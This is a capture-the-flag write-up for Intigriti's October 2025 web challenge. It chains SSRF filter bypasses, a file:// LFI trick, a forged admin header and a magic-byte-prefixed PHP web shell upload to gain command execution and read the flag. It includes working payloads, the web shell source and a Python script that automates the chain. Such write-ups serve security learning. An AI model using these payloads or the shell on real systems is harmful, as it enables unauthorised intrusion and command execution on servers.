










# Intigriti's October challenge 1025 by [chux](https://x.com/chux13786509)

## Description

The solution:

* Should leverage a remote code execution vulnerability on the challenge page.
* Shouldn't be self-XSS or related to MiTM attacks.
* Should require no user interaction.
* Should include:
    * The flag in the format INTIGRITI{.*}
    * The payload(s) used
    * Steps to solve (short description / bullet points)
* Should be reported on the Intigriti platform.

**Test your payloads down below and [on the challenge page here](https://challenge-1025.intigriti.io/challenge.php)!**

Let's pop that shell!

## Analysis

The target is a **black-box PHP web application** exposing an endpoint:

    /challenge.php?url=<external-resource>



`challenge.php` fetches the **remote resource** specified by the `url` query parameter and returns the result to the user. 
By manipulating the supplied URL it is possible to influence how the server fetches resources; such functionality commonly leads to **Server Side Request Forgery (SSRF)** or directly to **Remote Code Execution (RCE)**.

To learn how the fetch is implemented, it is possible to try causing an exception by injecting a **NUL byte** into the URL, if errors are not properly handled and returned:

```bash
$ curl 'https://challenge-1025.intigriti.io/challenge.php?url=http://test%00'
```



The error trace revealed the application calls PHP’s [cURL](https://www.php.net/manual/en/book.curl.php) extension to fetch the user-supplied URL. 
The URL is handed to the **cURL API** (e.g. `curl_init` / `curl_setopt` / `curl_exec`) as a string, it is not interpreted by a shell, so attempts to append shell metacharacters to the URL:

    http://test;<cmd>

will not result in server-side command execution.

In this scenario, **SSRF** and **Local File Inclusion (LFI)** are the primary vectors to validate, since they can expose internal system information and, if chained together or combined with other weaknesses, may lead to **RCE**.

### SSRF

The most straightforward test is to check whether the fetcher allows contacting the application host **(loopback)**. 
A naive defensive measure is to reject obvious **loopback** strings, for example:

```bash
$ curl 'https://challenge-1025.intigriti.io/challenge.php?url=http://localhost/'
```

That check appears to be present since http://localhost/ (and http://127.0.0.1/) are blocked, as shown below:



However, the current filter is implemented as a simple string match and can be bypassed easily. 
Examples of trivial bypasses that still resolve locally for cURL:

```bash
# alternative wildcard address
$ curl 'https://challenge-1025.intigriti.io/challenge.php?url=http://0.0.0.0/'

# double-percent-encoded dots — decodes to 127.0.0.1 when resolved by cURL
$ curl 'https://challenge-1025.intigriti.io/challenge.php?url=http://127%252E0%252E0%252E1/'
```

And indeed, `challenge.php` is fetched and served locally:



### LFI

Since the fetcher accepts arbitrary URLs, it can be abused to read **local files** via the `file://` scheme. 
A straightforward test is:

```bash
$ curl 'https://challenge-1025.intigriti.io/challenge.php?url=file:///etc/passwd'
```

In this instance the request failed, indicating the fetcher expects **HTTP(S)** input:



If the server’s filter just performs a naive substring match, without validating that the supplied URL is a properly formatted **HTTP(S)** one, it is possible to embed `http` as a harmless path segment plus `..` traversal so that the URL normalizes to `/etc/passwd` bypassing the literal string check:

```bash
$ curl 'https://challenge-1025.intigriti.io/challenge.php?url=file:///http/../etc/passwd'
```

This request returned the file contents as expected:



## Exploit

The main exploit starts from the acknowledged presence of **LFI**, through which it is possible to list the content of the web app filesystem:

```bash
$ curl 'https://challenge-1025.intigriti.io/challenge.php?url=file:///http/../var/www/html
```



Note: at this stage it is possible to access the `challenge.php` source to examine why the earlier payloads succeedes in exploiting the observed vulnerabilities:

```php
<?php
if (isset($_GET['url'])) {
    $url = $_GET['url'];

    if (stripos($url, 'http') === false) {
        die("<p style='color:#ff5252'>Invalid URL: must include 'http'</p>");
    }
    if (stripos($url, '127.0.0.1') !== false || stripos($url, 'localhost') !== false) {
        die("<p style='color:#ff5252'>Invalid URL: access to localhost is not allowed</p>");
    }

    $ch = curl_init($url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $response = curl_exec($ch);

    if ($response === false) {
        echo "<p style='color:#ff5252'>cURL Error: " . curl_error($ch) . "</p>";
    } else {
        echo "<h3>Fetched content:</h3>";
        echo "<pre>" . htmlspecialchars($response) . "</pre>";
    }

    curl_close($ch);
}
?>
```

The filesystem contents are listed because the server’s `curl` binary has been compiled with directory listing support, allowing it to output the contents when the specified path is a directory.
The PHP `curl_init` function can access any filesystem path that the PHP process has permission to read, including paths outside the web root, such as `/etc/`.
This content is returned via **PHP/cURL** and is not served directly by Apache[^1].

To better understand how the web server handles requests, controls access, and serves content, it is useful to inspect the **Apache configuration** files.
Files such as `/etc/apache2/sites-enabled/000-default.conf` define which directories the web server can access, which directories allow automatic listings, and which are restricted.
Reviewing them clarifies how **Apache** manages filesystem access and interacts with PHP scripts.

```xml
<VirtualHost *:8080>
    DocumentRoot /var/www/html

    <Directory /var/www/html>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>

    <Directory /var/www/html/uploads>
        Options -Indexes
    </Directory>

    <Directory /var/www/html/public>
        Options -Indexes
    </Directory>

    <Files "upload_shoppix_images.php">
        <If "%{HTTP:is-shoppix-admin} != 'true'">
            Require all denied
        </If>
        Require all granted
    </Files>
</VirtualHost>
```

* `Options Indexes` enables **Apache** to list directory contents under `/var/www/html`:

* `Options -Indexes` for `/var/www/html/uploads` and `/var/www/html/public` disables directory listing in those specific subdirectories.

* In addition, the **Apache configuration** limits access to a **previously undisclosed** PHP endpoint, `upload_shoppix_images.php`, based on the value of the `is-shoppix-admin` request header.

[^1]: The **PHP/cURL** listing currently permits **arbitrary** filesystem enumeration and **retrieval** of individual files (which may expose the flag); however, the challenge’s objective is to demonstrate a chained **RCE**, so testing will continue beyond simple file disclosure.

The **image upload handler** implementation is shown in the code below:
```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $file = $_FILES['image'];
    $filename = $file['name'];
    $tmp = $file['tmp_name'];
    $mime = mime_content_type($tmp);

    if (
        strpos($mime, "image/") === 0 &&
        (stripos($filename, ".png") !== false ||
         stripos($filename, ".jpg") !== false ||
         stripos($filename, ".jpeg") !== false)
    ) {
        move_uploaded_file($tmp, "uploads/" . basename($filename));
        echo "<p style='color:#00e676'>✅ File uploaded successfully to /uploads/ directory!</p>";<>
    } else {
        echo "<p style='color:#ff5252'>❌ Invalid file format</p>";
    }
}
?>
```
The behavior is the following:

1. it uses `mime_content_type()` on the temporary file to check the **MIME type** starts with `image/`; 

2. checks the original filename contains `.png`, `.jpg` or `.jpeg` (case-insensitive);

3. if all checks pass, it moves the uploaded file to `uploads/`
    and returns success; otherwise it rejects the upload.

The upload handler merely validates the filename extension and relies on `mime_content_type()` to classify the file as an image.
 Both controls are inadequate: it is possible to make non-image content appear as an image by prepending a valid **image magic header**, and if the `uploads/` directory permits PHP execution the application can be abused to place a file the server will **serve** and **execute** as a `.php` resource.

What previously presented is the main idea of the next step of the **exploit**:
1. implement a PHP **web shell** which accepts a **command** and its **arguments** as query parameters (`cmd`, `args`) and returns the execution output; the following code shows a possible implementation of the latter:

```php
<?php
$cmd = $_GET['cmd'];        
$args = $_GET['args'];

$process = proc_open("$cmd $args", [
    0 => ['pipe', 'r'],
    1 => ['pipe', 'w'],
    2 => ['pipe', 'w']
], $pipes);

if (is_resource($process)) {
    fclose($pipes[0]);
    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);
}
?>
```
2. the shell will be named `shell.jpg.php`; this simultaneously defeats the naive substring check on image extensions while still causing the server to resolve the resource as a PHP executable;

3. prepend the **JPEG magic header** to the shell file; the following terminal commands demonstrate the technique:
```bash
# correct MIME type
file --mime-type -b shell.jpg.php # text/x-php

printf "\xFF\xD8\xFF" | cat - shell.jpg.php  > tmp && mv tmp shell.jpg.php

# forged MIME type
file --mime-type -b shell.jpg.php # image/jpeg
```

4. upload the shell by sending a POST request including `is-shoppix-admin: true` header:
```bash
$ curl -X POST -F 'image=@shell.jpg.php' -H 'is-shoppix-admin: true' 'https://challenge-1025.intigriti.io/upload_shoppix_images.php'
```



After confirming that the shell is successfully uploaded, it is necessary to trigger its execution leveraging the **SSRF**, since access to `uploads/` directory is not allowed externally:

```bash
$ curl 'https://challenge-1025.intigriti.io/challenge.php?url=http://127%252E0%252E0%252E1/uploads/shell.jpg.php?cmd=ls%26args=/'
```

Note: **%26** is the URL-encoded representation of `&`;
URL-encoding is required so that the outer request (i.e. the actual request made to the web application) treats it as data rather than as a delimiter between query parameters.

The previous request triggers the shell and requests the listing of the **root directory**:



The **flag** is probably stored in file `/93e892fe-c0af-44a1-9308-5a58548abd98.txt`; another request is sent to the shell in order to read its content:

```bash
$ curl 'https://challenge-1025.intigriti.io/challenge.php?url=http://127%252E0%252E0%252E1/uploads/shell.jpg.php?cmd=cat%26args=/93e892fe-c0af-44a1-9308-5a58548abd98.txt'
```

And yes the the suspicion was well-founded:



All the previous steps are automated in the following python script:

```python
import requests, argparse, shlex, re, string
from urllib.parse import urljoin

# collect commands and arguments
parser = argparse.ArgumentParser(description="Run a command with arguments")
parser.add_argument(
    '--cmds',
    nargs='+',
    help='Command and arguments to run, e.g. --cmds ls -la /tmp'
)

parsed = parser.parse_args()
if not parsed.cmds:
    print("Usage: python3 script.py --cmds <command> [args...]")
    exit(1)
cmds = [shlex.split(cmd) for cmd in parsed.cmds]

base_url = "https://challenge-1025.intigriti.io/"
upload_endpoint = "upload_shoppix_images.php"
home_endpoint = "challenge.php"

shell_name = "shell.jpg.php"
jpg_magic = b"\xFF\xD8\xFF\xEE"

# double url encode of 127.0.0.1: it will bypass the filter while still 
# being resolved by curl_init() (0.0.0.0 alone is also a valid bypass payload)
filter_bypass_localhost = "http://127.0.0.1/".replace(".", "%2E")

print("[*] preparing shell to be uploaded as .jpeg image")
with open(f"./{shell_name}", "rb") as shell:
    # prepend magic header to confuse mime_content_type()
    shell_content = jpg_magic + shell.read()

    upload_file = {"image": (shell_name, shell_content, "image/jpeg")}
    resp = requests.post(urljoin(base_url, upload_endpoint), headers={"is-shoppix-admin": "true"}, files=upload_file)

if resp.status_code != 200 or "File uploaded successfully to /uploads/ directory!" not in resp.text:
    print("[-] failed to upload shell")
    exit(1)

print("[+] successfully uploaded shell")


# it includes a random http directory access that is resolved with ../ 
# to avoid triggering "if (stripos($url, 'http') === false)""
lfi_payload_base = "file:///http/../" # + target_path
shell_path = "var/www/html/uploads/"
lfi_payload_complete = urljoin(lfi_payload_base, shell_path, shell_name)

# check that shell is uploaded
resp = requests.get(urljoin(base_url, home_endpoint), params={"url": lfi_payload_complete})
if resp.status_code != 200:
    print("[-] shell not found in /uploads")
    exit(1)

print("[+] confirmed shell upload")


# http://127%252E0%252E0%252E1/uploads/shell.jpg.php
shell_relative_path = "uploads/"
exec_shell_payload = filter_bypass_localhost + shell_relative_path + shell_name

# check that shell is invokable
resp = requests.get(urljoin(base_url, home_endpoint), params={"url": exec_shell_payload})

if resp.status_code != 200 or not "Undefined array key" in resp.text or not "cmd" in resp.text or not "args" in resp.text:
    print("[-] Failed to invoke uploaded shell")
    exit(1)

print("[+] Successfully invoked uploaded shell")


# exec system commands
for cmd in cmds:
    args = " ".join(cmd[1:])
    resp = requests.get(urljoin(base_url, home_endpoint), params={"url": f"{exec_shell_payload}?cmd={cmd[0]}&args={args}"})

    match = re.search(r"<h3>Fetched content:</h3><pre>(.*?)</pre>", resp.text, re.DOTALL)
    cmd_out = "".join(c for c in match.group(1) if c in string.printable) if match else "<no output>"
    print(f"[*] {cmd} output:\n{cmd_out}")
    print("----------------------------------------------------------------")
```

Execution output:

```bash
$ python3 solve.py --cmds "ls /" "cat /93e892fe-c0af-44a1-9308-5a58548abd98.txt"
[*] preparing shell to be uploaded as .jpeg image
[+] successfully uploaded shell
[+] confirmed shell upload
[+] Successfully invoked uploaded shell
[*] ['ls', '/'] output:
93e892fe-c0af-44a1-9308-5a58548abd98.txt
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

----------------------------------------------------------------
[*] ['cat', '/93e892fe-c0af-44a1-9308-5a58548abd98.txt'] output:
INTIGRITI{ngks896sdjvsjnv6383utbgn}
----------------------------------------------------------------
```